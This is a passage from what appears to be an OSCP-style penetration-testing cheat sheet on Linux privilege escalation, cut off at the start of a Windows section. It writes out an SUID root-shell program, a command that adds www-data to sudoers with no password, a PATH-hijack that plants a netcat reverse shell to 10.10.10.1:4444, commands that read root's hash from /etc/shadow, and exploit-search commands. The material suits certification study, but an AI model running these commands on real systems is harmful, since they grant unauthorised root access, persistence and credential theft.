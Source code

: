               Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    *   Create and compile an SUID from a limited shell (no file transfer)

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

*   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

*   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.

         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

*   SearchSploit

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

*   Kernel Exploit Suggestions for Kernel Version 3.0.0

    `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

*   Precompiled Linux Kernel Exploits - _**Super handy if GCC is not installed on the target machine!**_

    [_https://www.kernel-exploits.com/_](http://web.archive.org/web/20171113221652/https://www.kernel-exploits.com/)

*   Collect root password

    `cat /etc/shadow |grep root`

*   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#windows-privilege-escalation)Windows Privilege Escalation

*   Windows Privilege Escalation resource [http://www.fuzzysecurity.com/tutorials/16.html](http://web.archive.org/web/20171113221652/http://www.fuzzysecurity.com/tutorials/16.html)

*   Metasploit Meterpreter Privilege Escalation Guide [https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)

*   Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:
